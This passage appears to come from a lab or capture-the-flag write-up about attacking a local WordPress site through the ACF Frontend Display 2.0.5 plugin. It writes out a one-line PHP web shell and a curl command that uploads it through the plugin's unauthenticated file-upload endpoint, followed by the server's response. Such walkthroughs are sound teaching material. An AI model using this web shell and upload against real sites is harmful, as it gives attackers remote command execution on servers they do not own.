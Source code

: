 ![evidence](./static/12-plugin-test.png)

When I check the `/zhkh/wp-content/uploads/` again, then now, there is the directory `uigen_2023`:

![evidence](./static/13-uploads-update.png)

When I google `WordPress Plugin ACF Frontend Display 2.0.5 exploit`, Then I find a [PoC exploit](https://www.exploit-db.com/exploits/37514), and I am going to try it. When I write a web shell with PHP:
```shell
$ echo "<?php system(\$_GET['cmd']); ?>" > ws.php
```
And I use the following `curl` command to upload it:
```shell
$ curl -k -X POST -F "action=upload" -F "files=@$(pwd)/ws.php" \
> "http://192.168.56.107/zhkh/wp-content/plugins/acf-frontend-display/js/
> blueimp-jQuery-File-Upload-d45deb1/server/php/index.php"

[{"name":"ws.php","size":31,"type":"application\/octet-stream","url":
"http:\/\/192.168.1.13\/zhkh\/wp-content\/uploads\/uigen_2023ws.php",
"delete_url":"http:\/\/192.168.56.107\/zhkh\/wp-content\/plugins\/
acf-frontend-display\/js\/blueimp-jQuery-File-Upload-d45deb1\/server\/php
\/?file=ws.php","delete_type":"DELETE"}]
```
Then it seems that it worked, when I check the `/zhkh/wp-content/uploads/` again, then I can see the file `ws.php`:
